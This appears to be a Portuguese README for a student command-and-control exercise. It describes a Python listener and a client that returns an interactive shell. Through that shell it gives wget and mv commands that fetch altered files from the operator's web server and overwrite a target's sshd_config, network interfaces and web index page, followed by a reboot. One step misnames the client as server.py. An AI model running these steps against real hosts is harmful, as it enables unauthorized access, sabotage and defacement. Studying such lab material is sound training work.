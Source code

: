 Olá, este repositório é para explicar o que fazer com o CheckPoint 01 Python - Command Control

Acima estão dois arquivos: server.py & cliente.py

O primeiro arquivo que temos que utilizar é o server.py:
  Nesse arquivo, já está detalhado o que cada parte faz/recebe
  Temos que dar um run nele primeiro, pois ele vai abrir uma porta na máquina e ficar escutando 
 
Então agora utilizaremos o arquivo server.py:
  Ele vai se conectar na porta escolhida pelo server.py e se conectar
  levando os arquivos escolhidos e uma shell interativa
  
  
Após rodar os dois e fazer as devidas modificações nos documentos, vamos dar a seguinte sequência de comandos:
  na nossa máquina, vamos levar os 3 documentos alterados para a pasta de rede e subir uma rede
    No Kali, por exemplo, essa pasta é /var/www/html
    
  Feito isso, no cmd que recebemos, vamos dar o comando:
    "wget "http://localhost/sshd_config" -O arquivo1alterado"
    "wget "http://localhost/interfaces" -O arquivo2alterado"
    "wget "http://localhost/index.html" -O arquivo3alterado"
    
  Com isso, já vamos ter os arquivos alterados na máquina alvo.
  Para substituir os arquivos originais pelos arquivos alterados, damos o seguinte comando:
    "mv arquivo1alterado /etc/ssh/sshd_config"
    "mv arquivo2alterado /etc/network/interfaces"
    "mv arquivo3alterado /var/www/html/index.html"
    
  Agora os arquivos estão substituídos, vamos dar o comando para reiniciar a máquina alvo para concluir as alterações
    "reboot"
